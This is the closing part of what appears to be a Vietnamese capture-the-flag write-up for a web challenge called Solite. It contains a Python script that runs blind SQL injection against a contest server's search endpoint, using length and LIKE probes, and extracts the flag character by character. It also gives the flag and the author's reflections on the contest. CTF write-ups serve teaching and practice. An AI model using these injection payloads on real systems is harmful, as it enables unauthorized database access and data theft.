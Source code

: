```python
URL_LENGTH_CHECK: ?name[]=1' AND (SELECT length(flag) FROM flag_c1abd148_acae_40be_a953_eae333f90da0) > {};--
  - {} is flag length
URL_FLAG_CHECK: ?name[]=1' AND (SELECT hex(flag) FROM flag_c1abd148_acae_40be_a953_eae333f90da0 WHERE flag LIKE '{}%') > '0';--
  - {} is flag

- Server will return [] if something wrong
"""

URL_LENGTH_CHECK = "http://45.122.249.68:20020/search?name[]=1'+AND+(SELECT+length(flag)+FROM+flag_c1abd148_acae_40be_a953_eae333f90da0)+>+{}%3b--"
URL_FLAG_CHECK = "http://45.122.249.68:20020/search?name[]=1'+AND+(SELECT+hex(flag)+FROM+flag_c1abd148_acae_40be_a953_eae333f90da0+WHERE+flag+LIKE+'{}%25')+>+'0'%3b--"
CHARS = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@$^*()_+{}[];':\",./<>?\\|`~"
flag = []
flagLength = 0

def getFlagLength():
    i = 5
    while True:
        r = requests.get(url=URL_LENGTH_CHECK.format(i))
        if (r.text == "[]"):
            return i
        
        i += 1

def check(index):
    currentFlag = [*flag]
    for char in chars:
        currentFlag[index] = char
        r = requests.get(url=URL_FLAG_CHECK.format(''.join(currentFlag)))

        if (r.text != "[]"):
            flag[index] = char
            print(flag)

            return

if __name__ == "__main__":
    flagLength = getFlagLength()

    flag = ['_'] * flagLength
    flag[0] = 'W'
    flag[1] = '1'
    flag[2] = '{'
    flag[-1] = '}'

    for i in range(3, len(flag) - 1):
        Thread(target=lambda: check(i)).start()
```
 :::
::::
<br />**FLAG:** `W1{i_th1nk_u_r_so_lite^_^}`
<br />
#
Tóm tắt lại giải Freshman năm nay rất là chất lượng. Không chỉ từ đề thi mà các anh chị cũng rất thân thiện, tận tình với đứa như em :(. Mặc dù chỉ solve được 2/5 bài web trong thời gian 8 tiếng, hơi tiếc là bài Solite mình đã không thể giải quyết nốt trong thời gian còn lại.